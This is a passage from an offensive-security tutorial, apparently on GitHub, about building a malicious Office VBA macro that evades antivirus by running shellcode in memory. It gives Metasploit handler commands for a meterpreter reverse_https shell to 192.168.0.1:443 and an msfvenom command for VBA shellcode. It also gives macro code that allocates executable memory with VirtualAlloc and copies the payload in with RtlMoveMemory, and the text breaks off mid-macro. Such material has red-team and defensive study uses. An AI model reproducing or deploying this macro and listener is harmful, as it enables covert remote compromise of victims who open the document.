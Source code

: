 ### A More Subtle Malicious VBA Macro

The approach above is good, but not very subtle. It involves writing a file to disk, and launching Powershell, which may be considered spicy by Antivirus and Defender or other countermeasures present on a machine. The most subtle approach we could possibly take is to make calls to Win32 APIs directly from VBA and to launch a staged payload. This keeps everything in memory, with minimal footprint for the initial payload, involving as few other applications as possible, and writing nothing to disk.

The major drawback is that once the victim closes the Office application running the macro the shell dies. We have traded subtlety for persistence.

First, get an `msfconsole` multi/handler ready to receive a staged payload, staged is now preferred since it means a much smaller initial payload that needs to be inserted into the macro. Commands to get the handler going are as follows:
```bash
sudo msfconsole -q
```
```bash
use multi/handler
```
```bash
set payload windows/x64/meterpreter/reverse_https
```
```bash
set lhost 192.168.0.1
```
```bash
set lport 443
```
```bash
exploit
```

Now, use `msfvenom` to generate a VBA compatible bit of shellcode
```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.1 LPORT=443 EXITFUNC=thread -f vbapplication
```
Copy the output of the above into the `buf = Array(20, 30,50, ...` section of the marco below. Our full malicious Macro is as follows:
```vba
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    buf = Array(20, 30, 40, ... )

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
```